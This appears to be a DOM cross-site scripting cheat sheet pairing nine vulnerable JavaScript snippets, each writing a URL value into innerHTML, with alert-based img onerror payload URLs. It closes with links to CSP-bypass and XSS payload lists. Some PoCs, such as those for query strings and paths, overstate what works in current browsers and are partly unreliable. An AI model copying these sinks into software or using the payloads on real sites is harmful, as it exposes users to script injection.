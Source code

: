 ### 1. **`window.location.href`**

#### **JavaScript Code Example:**
```javascript
document.body.innerHTML = "You are on: " + window.location.href;
```

#### **Explanation:**
Here, the `window.location.href` value, which is the full URL of the page, is directly inserted into the DOM using `innerHTML`. This is dangerous because an attacker can manipulate the URL and inject malicious code that gets executed when the page is rendered.

#### **PoC:**
```html
http://example.com/#"><img src="x" onerror="alert('XSS')">
```

This payload inserts a `<img>` element that triggers an `onerror` event when the image fails to load, which then executes the `alert('XSS')` code.

---

### 2. **`window.location.search`**

#### **JavaScript Code Example:**
```javascript
let params = window.location.search;
document.body.innerHTML = "Search query: " + params;
```

#### **Explanation:**
The `window.location.search` retrieves the query string from the URL (the part after `?`). By directly inserting this value into the DOM using `innerHTML`, attackers can manipulate the query string to execute malicious JavaScript.

#### **PoC:**
```html
http://example.com/?q="><img src="x" onerror="alert('XSS')">
```

This payload manipulates the query parameter `?q=`, injecting an `<img>` tag with an `onerror` handler that executes JavaScript when the image fails to load.

---

### 3. **`URLSearchParams`**

#### **JavaScript Code Example:**
```javascript
let params = new URLSearchParams(window.location.search);
let paramValue = params.get('input');
document.body.innerHTML = "Input: " + paramValue;
```

#### **Explanation:**
`URLSearchParams` is used to retrieve query parameters from the URL. In this case, `paramValue` is obtained from the query string and inserted into the DOM using `innerHTML`. If not sanitized, attackers can inject malicious code through the `input` parameter.

#### **PoC:**
```html
http://example.com/?input="><img src="x" onerror="alert('XSS')">
```

By injecting an image with an `onerror` event, attackers can execute JavaScript when the image fails to load.

---

### 4. **`window.location.hash`**

#### **JavaScript Code Example:**
```javascript
document.body.innerHTML = "Hash value: " + window.location.hash;
```

#### **Explanation:**
The `window.location.hash` returns the part of the URL after the `#`. In this example, the value of the hash is inserted directly into the DOM using `innerHTML`. An attacker can manipulate the hash to include malicious code.

#### **PoC:**
```html
http://example.com/#"><img src="x" onerror="alert('XSS')">
```

The payload manipulates the URL hash to inject an image with an `onerror` event, which triggers JavaScript execution when the image cannot load.

---

### 5. **`document.URL`**

#### **JavaScript Code Example:**
```javascript
document.body.innerHTML = "Current URL: " + document.URL;
```

#### **Explanation:**
`document.URL` returns the full URL of the current page. In this case, the URL is injected into the DOM using `innerHTML`, making it vulnerable to XSS if an attacker manipulates the URL.

#### **PoC:**
```html
http://example.com/#"><img src="x" onerror="alert('XSS')">
```

By injecting an image element in the URL hash, attackers can trigger JavaScript execution through the `onerror` event.

---

### 6. **`location.href.indexOf()`**

#### **JavaScript Code Example:**
```javascript
if (location.href.indexOf("#prettyPhoto") !== -1) {
    document.body.innerHTML = "PrettyPhoto activated: " + location.hash;
}
```

#### **Explanation:**
This code checks if the URL contains the string `#prettyPhoto`. If true, the value of `location.hash` is injected into the DOM using `innerHTML`. An attacker can manipulate the URL hash to inject a malicious script.

#### **PoC:**
```html
http://example.com/#prettyPhoto="><img src="x" onerror="alert('XSS')">
```

This payload uses the URL hash to inject an image with an `onerror` event that triggers JavaScript execution.

---

### 7. **`location.hash`**

#### **JavaScript Code Example:**
```javascript
document.body.innerHTML = "Hash: " + location.hash;
```

#### **Explanation:**
The `location.hash` is the part of the URL after the `#`. This value is injected into the DOM directly using `innerHTML`. Without sanitization, an attacker can manipulate the hash to include a malicious script.

#### **PoC:**
```html
http://example.com/#"><img src="x" onerror="alert('XSS')">
```

By injecting an image with an `onerror` event in the hash, the payload triggers JavaScript execution when the image fails to load.

---

### 8. **`location.pathname`**

#### **JavaScript Code Example:**
```javascript
document.body.innerHTML = "Current path: " + location.pathname;
```

#### **Explanation:**
`location.pathname` returns the path portion of the URL. This value is injected into the DOM using `innerHTML`. If not sanitized, it allows attackers to inject malicious scripts through the URL path.

#### **PoC:**
```html
http://example.com/"><img src="x" onerror="alert('XSS')">
```

This payload manipulates the URL path to inject an image with an `onerror` event that triggers JavaScript execution.

---

### 9. **`location.search`**

#### **JavaScript Code Example:**
```javascript
document.body.innerHTML = "Search: " + location.search;
```

#### **Explanation:**
`location.search` returns the query string part of the URL, including the `?`. By directly inserting the query string into the DOM using `innerHTML`, attackers can manipulate the query string to include malicious scripts.

#### **PoC:**
```html
http://example.com/?search="><img src="x" onerror="alert('XSS')">
```

This payload manipulates the query string to inject an image with an `onerror` event that triggers JavaScript execution.


**blocked by csp?**
- [https://raw.githubusercontent.com/RHYru9/rhyru9.github.io/refs/heads/main/bug/xss-cheatsheet/csp.txt](https://raw.githubusercontent.com/RHYru9/rhyru9.github.io/refs/heads/main/bug/xss-cheatsheet/csp.txt)

**xss without Prentheses**
- [https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)
---
